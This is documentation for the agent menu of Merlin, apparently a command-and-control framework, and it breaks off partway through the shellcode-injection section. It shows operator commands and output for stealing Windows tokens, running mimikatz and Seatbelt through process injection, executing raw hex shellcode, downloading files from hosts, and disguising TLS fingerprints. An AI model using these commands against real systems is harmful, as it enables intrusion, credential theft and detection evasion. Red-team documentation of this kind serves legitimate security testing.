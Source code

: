 ###########
Agent Menu
###########

The agent menu context is used to interact with a single agent. The Merlin prompt will include the word ``agent`` along
with the identifier for the selected agent. Type ``help`` to see a list of available commands for the agent menu context.

Prefix any command with ``help`` (e.g., ``help run``) to view the command's help information.
Use any of the following flags after a command name to view the help information for that command:
``help``, ``-h``, ``--help``, ``?``, ``/?``

help
----

.. note::
    The help menu will only show commands available to agent depending on its operating system

* :ref:`help core`
* linux_
* :ref:`help windows`

.. _help core:

core
^^^^

The ``core`` commands are available to every agent regardless of which operating system they are running on

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» help

       COMMAND  |          DESCRIPTION           |                 USAGE
    ------------+--------------------------------+----------------------------------------
      !         | Execute a command on the local | ! command [args]
                | system                         |
      back      | Go to the main menu            | back
      banner    | Display the Merlin ASCII art   | banner
                | banner                         |
      cd        | Change the Agent's current     | cd directory
                | working directory to provided  |
                | file system path               |
      checkin   | Force the agent check in by    | checkin
                | sending back an AgentInfo      |
                | message                        |
      clear     | Cancel all Agent jobs that     | clear
                | have not been sent             |
      connect   | Instruct an Agent to           | connect uri
                | re-connect it's primary        |
                | communicate channel to the     |
                | provide address                |
      debug     | Switch debug output to the     | debug
                | console on or off              |
      download  | Download a file from the host  | download filePath
                | the Agent is running on to the |
                | Server                         |
      env       | View or modify operating       | env {get|set|showall|unset}
                | system environment variables   | [variable] [value]
      exit      | Instruct the Agent to exit and | exit [-y]
                | quit running                   |
      ifconfig  | Get the network interface      | ifconfig
                | information where the Agent is |
                | running                        |
      info      | Display information about the  | info
                | Agent                          |
      interact  | Interact with an agent or a    | interact {agentID|listenerID}
                | listener                       |
      ipconfig  | Get the network interface      | ipconfig
                | information where the Agent is |
                | running                        |
      ja3       | Change the Agent's JA3 TLS     | ja3 signature
                | signature to the one provided  |
      jobs      | Display all unfinished jobs    | jobs
      kill      | Terminate a running process    | kill pid
                | by its numerical process       |
                | identifier                     |
      killdate  | Set the epoch date/time the    | killdate epochDateTime
                | agent will quit running        |
      link      | Establish a connection link    | link
                | with a peer-to-peer Agent      | {add|list|remove|refresh|tcp|udp|smb}
                |                                | address
      listener  | Start, stop, or list           | listener {list|start|stop}
                | peer-to-peer listeners on the  | [protocol] [address]
                | Agent                          |
      listeners | Move to the listeners menu     | listeners
      ls        | List the files and folders of  | ls [filePath]
                | the provided filepath          |
      main      | Go to the Main menu            | main
      maxretry  | Change the maximum number of   | maxretry number
                | failed connection attempts     |
                | before the Agent exits.        |
      modules   | Move to the modules menu       | modules
      note      | Create a server-side note for  | note message
                | the current agent.             |
      nslookup  | Natively resolve a hostname or | nslookup {hostname|ip address}
                | IP address                     | [hostname|ip address] ...
      padding   | Set the MAXIMUM amount of      | padding size
                | random message padding         |
      parrot    | Change the HTTP TLS            | parrot browserString
                | configuration to match         |
                | (parrot) the provided browser  |
      printenv  | List all environment           | printenv
                | variables.                     |
      pwd       | Print the current working      | pwd
                | directory.                     |
      quit      | Stop and exit Merlin           | quit [-y]
      rm        | Remove a file or directory     | rm filePath
      run       | Execute a program and return   | run program [arguments]
                | output                         |
      sdelete   | Securely delete a file by      | sdelete filePath
                | zeroing out the data           |
      sessions  | List established Agent         | sessions
                | sessions                       |
      shell     | Execute commands through the   | shell command [arguments]
                | host's default command shell   |
      skew      | Change the jitter, or skew,    | skew amount
                | of the Agent's beaconing       |
                | interval.                      |
      sleep     | Change the Agent's sleep       | sleep duration
                | interval                       |
      socks     | Start, stop, or list a SOCKS5  | socks {list | start
                | server on the Merlin server    | [interface:]port agentID |stop
                |                                | [interface:]port agentID}
      ssh       | Execute a command on a remote  | ssh username password
                | host via SSH                   | host:port program [args]
      status    | Display if the Agent is        | status
                | active, delayed, or dead       |
      touch     | Copy a file's timestamp to     | touch sourceFilePath
                | another file                   | destinationFilePath
      unlink    | Task parent Agent to           | unlink childAgentID
                | disconnect the child           |
                | peer-to-peer Agent             |
      upload    | Upload a file to the target    | upload sourceFilePath
                | system                         | destinationFilePath
      verbose   | Switch verbose output to the   | verbose
                | console on or off              |

.. _help linux:

linux
^^^^^

These commands are only available to agents running on a ``Linux`` operating system.

.. code-block:: text

       COMMAND  |          DESCRIPTION           |                 USAGE
    ------------+--------------------------------+----------------------------------------
      memfd     | Execute a program from memory  | memfd filePath [args]

.. _help windows:

windows
^^^^^^^

These commands are only available to agents running on a ``Windows`` operating system.

.. code-block:: text

           COMMAND      |          DESCRIPTION           |                   USAGE
    --------------------+--------------------------------+--------------------------------------------
      execute-assembly  | Execute .NET assembly as       | execute-assembly assemblyPath
                        | shellcode in a child process   | [assemblyArguments]
                        |                                | [spawnToPath]
                        |                                | [spawnToArguments]
      execute-pe        | Execute Windows PE as          | execute-pe peFilePath
                        | shellcode in a child process   | [peArgumentes] [spawnToPath]
                        |                                | [spawnToArguments]
      execute-shellcode | Execute Windows shellcode      | execute-shellcode
                        |                                | {self|remote|RtlCreateUserThread|UserAPC}
                        |                                | [PID] {shellcode | shellcodeFilePath}
      invoke-assembly   | Execute a .NET assembly that   | invoke-assembly assemblyName
                        | was previously loaded into the | [assemblyArguments]
                        | agent with the 'load-assembly' |
                        | command.                       |
      load-clr          | Load a specific version of the | load-clr VERSION
                        | .NET CLR                       |
      list-assemblies   | Lists .NET assemblies that     | list-assemblies
                        | have been loaded into the      |
                        | agent’s process with the       |
                        | 'load-assembly' command.       |
      load-assembly     | Load a .NET assembly into the  | load-assembly filePath [alias]
                        | agent’s process.               |
      make_token        | Create a new Windows access    | make_token DOMAIN\USERNAME
                        | token                          | PASSWORD
      memory            | Read, write, or patch the      | memory {read|write|patch}
                        | Agent process' virtual memory  | module procedure {readLength |
                        |                                | hexData}
      netstat           | Get a list of network          | netstat [-p tcp|udp]
                        | connections                    |
      pipes             | List all named pipes on the    | pipes
                        | system                         |
      ps                | List running processes         | ps
      rev2self          | Revert the thread              | rev2self
                        | impersonation token to the     |
                        | process token                  |
      runas             | Run a program as a different   | runas domain\user password
                        | user.                          | program [arguments]
      sharpgen          | Compile & execute arbitrary C# | sharpgen <C# code> [spawnto]
                        | code.                          | [spawnto_args]
      steal_token       | Steal and use a Windows access | steal_token PID
                        | token from another process     |
      token             | Interact with Windows access   | token
                        | tokens                         | {make|privs|rev2self|steal|whoami}
                        |                                | [options]
      uptime            | Get the uptime of the target   | uptime
                        | system.                        |

!
-

.. note::
    USAGE: ``! command [args]``

Any command that begins with a ``!`` (a.k.a bang or exclamation point) will be executed on host itself where the Merlin
server is running. This is useful when you want simple information, such as your interface address, without having to
open a new terminal.

.. note::
    There must be a space after the ``!`` for the command to be executed.

.. code-block:: text

    Merlin» ! ip a show ens32

    [i] Executing system command...

    [+] 2: ens32: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
        link/ether 00:0c:29:z3:ff:91 brd ff:ff:ff:ff:ff:ff
        inet 192.168.211.221/24 brd 192.168.211.255 scope global dynamic noprefixroute ens32
           valid_lft 1227sec preferred_lft 1227sec
        inet6 fe80::a71d:1f6a:a0d1:7985/64 scope link noprefixroute
           valid_lft forever preferred_lft forever

    Merlin»

back
----

.. note::
    USAGE: ``back``

The ``back`` command go to the parent menu, typically the main menu. When the ``back`` command is executed from the
main menu, nothing will happen.

.. code-block:: text

    Merlin» back
    Merlin»

banner
------

.. note::
    USAGE: ``banner``

The ``banner`` command is used too print the super cool ascii art banner along with the version and build numbers.

.. code-block:: text

    Merlin» banner
    Merlin»


                                   &&&&&&&&
                                 &&&&&&&&&&&&
                                &&&&&&&&&&&&&&&
                              &&&&&&&&&&& &&&&
                             &&&&&&&&&&&&&  &&&&
                            &&&&&&&&&&&& &  &&&&
                           &&&&&&&&&&&&&     &&&&
                          &&&&&&&&&&&&&&&     &&&
                         &&&&&&&&&&&&&&&&&     &&&
                        &&&&&&&&&&&&&&&&&&&     &&&
                       &&&&&&&&&&&&&&&&&&&&&
                      &&&&&&&&&&&&&&&&&&&&&&&
                      &&&&&&&&&&&&&&&&&&&&&&&
                     &&&&&&&&&&&&&&&&&&&&&&&&&
                    &&&&&&&&&&&&&&&&&&&&&&&&&&&
                   &&&&&&&&&&&&&&&&&&&&&&&&&&&&&
                  &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
                 &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
           &&&&  &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&   &&&
        &&&&&&  &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&  &&&&&&
      &&&&&&&   &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&   &&&&&&&
    &&&&&&&&&  &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&  &&&&&&&&&
    &&&&&&&&&&  &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&  &&&&&&&&&&
    &&&&&&&&&&&   &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&   &&&&&&&&&&&
    &&&&&&&&&&&&&     &&&&&&&&&&&&&&&&&&&&&&&     &&&&&&&&&&&&&
      &&&&&&&&&&&&&&&          MERLIN         &&&&&&&&&&&&&&&
        &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
           &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
               &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
                       Version: 2.0.0
                       Build: nonRelease

.. _cd:

cd
--

.. note::
    USAGE: ``cd directory``

The ``cd`` command is used to change the current working directory the Merlin agent is using.
Relative paths can be used (e.g.,. ``./../`` or ``downloads\\Merlin``).
This command uses native Go and will not execute the ``cd`` binary program found on the host operating system.

| The ``\`` in a Windows directory must be escaped like ``C:\\Windows\\System32``.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» cd /usr/bin
    [-]Created job evtawDqBWa for agent a98e6175-7799-47fb-abf0-32534a9191f0 at 2019-02-27T01:03:57Z
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job evtawDqBWa at 2019-02-27T01:03:59Z
    Changed working directory to /usr/bin

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» cd "C:\\Program Files (x86)\\"
    [-]Created job gwFQhcsKJi for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 at 2019-02-27T01:17:26Z
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job gwFQhcsKJi at 2019-02-27T01:17:30Z
    Changed working directory to C:\Program Files (x86)

checkin
-------

.. note::
    USAGE: ``checkin``

The ``checkin`` command will force the agent check in by sending back an ``AgentInfo`` message.
Useful when a peer-to-peer Agent has a negative sleep value so it only communicates in when it has a message to send.

.. code-block:: text

    Merlin[agent][13f6ebee-78ec-4414-a04c-74188b95c01c]» checkin
    [-] Created job xLjwJhegfR for agent 13f6ebee-78ec-4414-a04c-74188b95c01c at 2023-08-03T10:58:26Z
    [-] Results of job xLjwJhegfR for agent 13f6ebee-78ec-4414-a04c-74188b95c01c at 2023-08-03T10:58:43Z
        Configuration data received for Agent 13f6ebee-78ec-4414-a04c-74188b95c01c and updated. Issue the "info" command to view it.

clear
-----

.. note::
    USAGE: ``clear``

The ``clear`` command will cancel all jobs in the queue that have not been sent to the agent yet.
This command will only clear jobs for the current agent.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» clear
    [+] jobs cleared for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

connect
-------

.. note::
    USAGE: ``connect uri``

The ``connect`` command instruct an Agent to re-connect it's primary communicate channel to the provide address.

* HTTP based Agents use a URI like ``https://127.0.0.1``
* TCP/UDP Agents use a URI like ``127.0.0.1:7777``
* SMB Beacons use a URI like ``\\\\127.0.0.1\\pipe\\merlinpipe`` and the backslashes need to be escaped

Bind Agents will listen on the new interface and reverse Agents will connect to the new uri.
If you get the jobs results back, the Agent has successfully reconnected.

HTTP Agent:

.. code-block:: text

    Merlin[agent][b3c03f46-b327-45c1-ac82-71a49032d4ad]» connect https://192.168.22.100/NeverGonnaGiveYouUp
    [-] Created job QZnUPPEooZ for agent b3c03f46-b327-45c1-ac82-71a49032d4ad at 2023-08-03T11:04:08Z
    [-] Results of job QZnUPPEooZ for agent b3c03f46-b327-45c1-ac82-71a49032d4ad at 2023-08-03T11:04:24Z
        Configuration data received for Agent b3c03f46-b327-45c1-ac82-71a49032d4ad and updated. Issue the "info" command to view it.

TCP bind Agent:

.. code-block:: text

    Merlin[agent][13f6ebee-78ec-4414-a04c-74188b95c01c]» connect 192.168.31.163:4444
    [-] Created job IFDLuKIRHD for agent 13f6ebee-78ec-4414-a04c-74188b95c01c at 2023-08-03T11:09:36Z
    Merlin[agent][13f6ebee-78ec-4414-a04c-74188b95c01c]» interact b3c03f46-b327-45c1-ac82-71a49032d4ad
    Merlin[agent][b3c03f46-b327-45c1-ac82-71a49032d4ad]» link tcp 192.168.31.163:4444
    [-] Created job QeoGIbKQjh for agent b3c03f46-b327-45c1-ac82-71a49032d4ad at 2023-08-03T11:10:43Z
    [-] Results of job QeoGIbKQjh for agent b3c03f46-b327-45c1-ac82-71a49032d4ad at 2023-08-03T11:11:04Z
    [+] Successfully connected to tcp-bind Agent 13f6ebee-78ec-4414-a04c-74188b95c01c at 192.168.31.163:4444
    [-] Results of job IFDLuKIRHD for agent 13f6ebee-78ec-4414-a04c-74188b95c01c at 2023-08-03T11:11:04Z
        Configuration data received for Agent 13f6ebee-78ec-4414-a04c-74188b95c01c and updated. Issue the "info" command to view it.


debug
-----

.. note::
    USAGE: ``debug``

The ``debug`` command is a switch used to enable or disable debug output to the console.

.. code-block:: text

    Merlin[agent][13f6ebee-78ec-4414-a04c-74188b95c01c]» debug
    [+] 2023-10-19T12:16:13Z Debug output enabled
    Merlin[agent][13f6ebee-78ec-4414-a04c-74188b95c01c]» debug
    [+] 2023-10-19T12:16:15Z Debug output disabled

.. _download:

download
--------

.. note::
    USAGE: ``download filePath``

The ``download`` command is used to download a file from the host where the agent is running back to the Merlin server.
The file will be automatically saved in a folder with a name of the agent's identifier in the
``data\agents\c1090dbc-f2f7-4d90-a241-86e0c0217786`` directory.

.. note::
    Because ``\`` is used to escape a character, file paths require two (e.g., ``C:\\Windows``)

.. note::
    Enclose file paths containing a space with quotation marks (e.g.,. ``"C:\\Windows\\Program Files\\"``)

.. warning::
    Downloaded files are stored on the Merlin Server, not the place where the Merlin CLI is running.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» download C:\\Windows\\hh.exe
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job NXnhJVRUSP for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [+]Results for job NXnhJVRUSP
    [+]Successfully downloaded file C:\Windows\hh.exe with a size of 17920 bytes from agent to C:\merlin\data\agents\c1090dbc-f2f7-4d90-a241-86e0c0217786\hh.exe
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»

env
---

.. note::
    USAGE: ``env {get|set|showall|unset} [variable] [value]``

The ``env`` command is used to interact with environment variables and has the following methods:
  * get_
  * :ref:`env set`
  * showall_
  * unset_

get
^^^

.. note::
    USAGE: ``env get variable``

The ``env get`` command is used to retrieve the value of an existing environment variable.
The third, or last, argument is the name of environment variable to retrieve.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» env get TEST1
    [-] Created job xaSqAdQBXs for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job xaSqAdQBXs for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Environment variable TEST1=TESTINGTEST

.. _env set:

set
^^^

.. note::
    USAGE: ``env set variable value``

The ``env set`` command is used create, or overwrite, an environment variable with the specified value.
The third argument is the name of the environment variable and the fourth argument is the environment variables value.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» env set TEST1 TESTINGTEST
    [-] Created job NcyukONetb for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job NcyukONetb for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Set environment variable: TEST1=TESTINGTEST

showall
^^^^^^^

.. note::
    USAGE: ``env showall``

The ``env showall`` command enumerates and return all environment variables:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» env showall
    [-] Created job NzbQEytJpY for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job NzbQEytJpY for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Environment variables:
    SHELL=/bin/bash
    SESSION_MANAGER=local/ubuntu:@/tmp/.ICE-unix/3195,unix/ubuntu:/tmp/.ICE-unix/3195
    QT_ACCESSIBILITY=1
    SNAP_REVISION=148
    XDG_CONFIG_DIRS=/etc/xdg/xdg-ubuntu:/etc/xdg
    XDG_MENU_PREFIX=gnome-
    GNOME_DESKTOP_SESSION_ID=this-is-deprecated
    SNAP_REAL_HOME=/home/rastley
    GNOME_SHELL_SESSION_MODE=ubuntu
    SSH_AUTH_SOCK=/run/user/1000/keyring/ssh

unset
^^^^^

.. note::
    USAGE: ``env unset variable``

The ``env unset`` command clears, or empties, the environment variable name provided in the third argument:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» env unset TEST1
    [-] Created job hEYjNYeniT for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job hEYjNYeniT for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Unset environment variable: TEST1

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» env get TEST1
    [-] Created job IhKdCrKHEr for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job IhKdCrKHEr for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Environment variable TEST1=

exit
----

.. note::
    USAGE: ``exit [-y]``

The ``exit`` control type instructs the agent to exit or die.
There is no response on the CLI after the instruction has been provided to the agent.
This is the shortest way to quickly kill an agent.
The command will prompt for confirmation to prevent accidentally exiting the agent.
If you are certain use the ``-y`` flag to skip confirmation.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» exit

    are you sure that you want to exit the agent? [yes/NO]:
    yes
    Merlin»
    [-] Created job LHhrzSYuGS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

.. _execute-assembly:

execute-assembly
-----------------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``execute-assembly assemblyPath [assemblyArguments] [spawnToPath] [spawnToArguments]``

The ``execute-assembly`` command uses `go-donut <https://github.com/Binject/go-donut>`_ to convert a .NET assembly into
shellcode and then uses the ``windows/x64/go/exec/createProcess`` Merlin module to execute the shellcode.

Currently this command only supports .NET v4.0 assemblies. For more granular control, use the ``windows/x64/go/exec/donut`` module.

The command requires the file path to the assembly you wish to execute in the ``<assembly path>`` argument.
All other arguments are optional. The ``<spawnto path>`` argument is the process that will be started on the target and
where the shellcode will be injected and executed.
If a ``<spawnto path>`` is not provided, ``C:\WIndows\System32\dllhost.exe`` will be used.
The ``<spawnto args>`` value is used as an argument when starting the spawnto process.

.. note::
    Because ``\`` is used to escape a character, file paths require two (e.g., ``C:\\Windows``)

.. note::
    Use quotes to enclose multiple arguments for ``<assembly args>`` (e.g., ``execute-assembly Seatbelt.exe "LocalGroups LocalUsers"``)

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-assembly Seatbelt.exe "DotNet IdleTime" "C:\\Windows\\System32\\WerFault.exe" /?
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-] Created job dmAfzDPUsM for agent c1090dbc-f2f7-4d90-a241-86e0c0217786


    [+] Results for c1090dbc-f2f7-4d90-a241-86e0c0217786 job dmAfzDPUsM



                            %&&@@@&&
                            &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
                            &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
    %%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
    #%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
    #%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
    #####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
    #######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
    ###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
    #####%######################  %%%..                       @////(((&%%%%%%%################
                            &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
                            &%%&&&%%%%%        v1.1.0         ,(((&%%%%%%%%%%%%%%%%%,
                             #%%%%##,


    ====== DotNet ======

      Installed CLR Versions
          2.0.50727
          4.0.30319

      Installed .NET Versions
          3.5.30729.4926
          4.8.03752

      Anti-Malware Scan Interface (AMSI)
          OS supports AMSI           : True
         .NET version support AMSI   : True
            [!] The highest .NET version is enrolled in AMSI!
            [*] You can invoke .NET version 3.5 to bypass AMSI.
    ====== IdleTime ======

      CurrentUser : DESKTOP-H35RK21\rastley
      Idletime    : 00h:06m:02s:766ms (362766 milliseconds)



    [*] Completed collection in 0.122 seconds

.. _execute-pe:

execute-pe
----------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``execute-pe peFilePath [peArgumentes] [spawnToPath] [spawnToArguments]``

The ``execute-pe`` command uses `go-donut <https://github.com/Binject/go-donut>`_ to convert a Windows Portable
Executable (PE), commonly an .exe, into shellcode and then uses the ``windows/x64/go/exec/createProcess`` Merlin module
to execute the shellcode.

The command requires the file path to the PE you wish to execute in the ``<pe path>`` argument.
All other arguments are optional. The ``<spawnto path>`` argument is the process that will be started on the target and
where the shellcode will be injected and executed. If a ``<spawnto path>`` is not provided,
``C:\WIndows\System32\dllhost.exe`` will be used. The ``<spawnto args>`` value is used as an argument when starting the
spawnto process.

.. note::
    Because ``\`` is used to escape a character, file paths require two (e.g., ``C:\\Windows``)

.. note::
    Use quotes to enclose multiple arguments for ``<pe args>`` (e.g., ``execute-pe mimikatz.exe "coffee exit"``)

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-pe mimikatz.exe "coffee exit" C:\\Windows\\System32\\WerFault.exe Testing
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-] Created job BSvJZFvbRZ for agent c1090dbc-f2f7-4d90-a241-86e0c0217786


    [+] Results for c1090dbc-f2f7-4d90-a241-86e0c0217786 job BSvJZFvbRZ


      .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
     .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
     ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
     ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
     '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
      '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

    mimikatz(commandline) # coffee

        ( (
         ) )
      .______.
      |      |]
      \      /
       `----'

    mimikatz(commandline) # exit
    Bye!


.. _execute-shellcode:

execute-shellcode
-----------------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``execute-shellcode {self|remote|RtlCreateUserThread|UserAPC} [PID] {shellcode | shellcodeFilePath}``

The ``execute-shellcode`` command is used to have the Agent execute the provided shellcode. This command became available in version ``0.6.4`` and is only supported for Windows agents.

The ``execute-shellcode`` command takes the shellcode you want to execute at the last argument.
Shellcode can be provided using an absolute filepath or by pasting it directly into the terminal in one of the following
formats:

* Hex (e.g., ``5051525356``)
* ``0x50, 0x51, 0x52, 0x53, 0x56`` with or without spaces and commas
* ``\x50\x51\x52\x53\x56``
* Base64 encoded version of the above formats
* A file containing any of the above formats or just a raw byte file

.. warning::
    Shellcode injection and execution could cause a process to crash so choose wisely

.. note::
    If Cobalt Strike's Beacon is injected using one of these methods, exiting the Beacon will cause the process to die too.

The agent can execute shellcode using one of the following methods:
  * self_
  * remote_
  * RtlCreateUserThread_
  * UserAPC_

.. _self:

self
^^^^

.. note::
    USAGE: ``execute-shellcode self SHELLCODE``

The ``self`` method allocates space within the Merlin Agent process and executes the shellcode.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-shellcode self 505152535657556A605A6863616C6354594883EC2865488B32488B7618488B761048AD488B30488B7E3003573C8B5C17288B741F204801FE8B541F240FB72C178D5202AD813C0757696E4575EF8B741F1C4801FE8B34AE4801F799FFD74883C4305D5F5E5B5A5958C3
    [-]Created job joQNJONrEK for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job joQNJONrEK
    [+]Shellcode executed successfully


remote
^^^^^^

.. note::
    USAGE: ``execute-shellcode remote PID SHELLCODE``

The ``remote`` method creates a thread in another process using the
`CreateRemoteThreadEx <https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createremotethreadex>`_
Windows API call.

.. code-block:: text

